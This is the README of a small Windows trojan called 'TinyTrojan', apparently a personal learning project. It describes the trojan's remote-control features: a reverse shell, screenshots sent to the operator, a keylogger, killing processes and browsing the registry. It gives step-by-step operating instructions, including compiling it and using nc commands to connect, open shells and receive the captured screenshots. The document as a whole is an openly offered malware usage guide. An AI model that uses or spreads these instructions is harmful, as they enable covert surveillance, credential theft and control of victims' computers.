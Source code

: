 # TinyTrojan

## Description
This is just a small Trojan I wrote when I was learning software security. At present, it has reversed shell, captured the screen, recorded the keyboard, viewed the process, killed the process, and viewed the registry. 

Due to the short time I spent learning programming in Windows environment, the code quality of this project is poor, but I don't intend to continue to optimize it recently. I will rewrite a complete version in the future, ...maybe? lol

## Usage
1. Compile the project
    Just copy it into Visual Studio and compile it.
2. Run the project and connect to the server
    client:
    ```shell
    TinyTrojan.exe
    ```
    server:
    ```shell
    nc [client ip] 11451
    ```
### Command
- `shell` : Get a reverse shell，you should input a port and run another nc to listen it.
    ```shell
    nc [client ip] [another port]
    ```
  - you might need to run `chcp 65001` to change the code page to UTF-8.
- `screenshot` : Capture the screen, save as a BMP file and send it to the server, you should inport a port and run another nc to listen it and save the BMP file by using redirection.
    ```shell
    nc [client ip] [another port] > screenshot.bmp
    ```
- `key` : Record the keyboard and print it to the server. (not finished yet in fact)
- `process` : View all user processes and print it to the server.
- `kill` : Kill a process by PID, you should input a PID.
- `reg` : View the registry in terminal.
  - `ls` : List all subkeys in the current key.
  - `cd` : Change the current key, you should input a key.
  - `query` : List all names in the current key.
  - `cat` : Query the value of a key and print it to the server, you should input a name.
- `exit` : Exit the program.